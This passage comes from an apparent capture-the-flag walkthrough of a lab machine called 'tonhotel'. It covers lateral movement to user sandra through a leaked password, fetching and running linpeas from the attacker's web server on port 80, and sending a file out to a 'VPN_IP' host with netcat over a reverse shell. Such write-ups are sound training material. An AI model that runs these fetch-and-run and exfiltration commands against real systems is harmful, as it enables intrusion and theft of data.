 
That may be the password for `sandra`, let's try to switch:

```
sandra:ilovemydaughter
```

```
gilbert@tonhotel:/home$ su sandra
Password:
su: Authentication failure
```

No luck, let's keep on looking, we can get linpeas on the machine using a simple trick, since we know that we only can use ports `80` and `443`, we can do this:

```python
cp linpeas.sh index.html
sudo python3 -m http.server 80
wget http://IP/index.html
mv index.html linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Once we run linpeas, we can find a `/srv` directory which contains a `/srv/.dad` file:

```
gilbert@tonhotel:/tmp$ cat /srv/.dad
i cant deal with your attacks on my friends rn dad, i need to take some time away from the hotel. if you need access to the ton site, my pw is where id rather be: anywherebuthere. -S
```

This is the password for `Sandra:`

```
sandra:anywherebuthere
```

![](cybersecurity/images/Pasted%2520image%252020250702181202.png)

Let's run `linpeas` again, once we run it, we can find a `boss.jpg` file on the `Pictures` directory of our home:

```
sandra@tonhotel:/tmp$ ls -la /home/sandra/Pictures/
total 40
drwxrwx--- 2 sandra sandra  4096 Sep 10  2023 .
drwxr-xr-x 5 sandra sandra  4096 Jul  2 23:13 ..
-rw-rw---- 1 sandra sandra 32637 Sep  7  2023 boss.jpg
```

Let's get it on our machine, we can use netcat for it:

```
# On our machine

sudo nc -lvnp 80 > boss.jpg

# On reverse shell

nc VPN_IP 80 < /home/sandra/Pictures/boss.jpg 
```
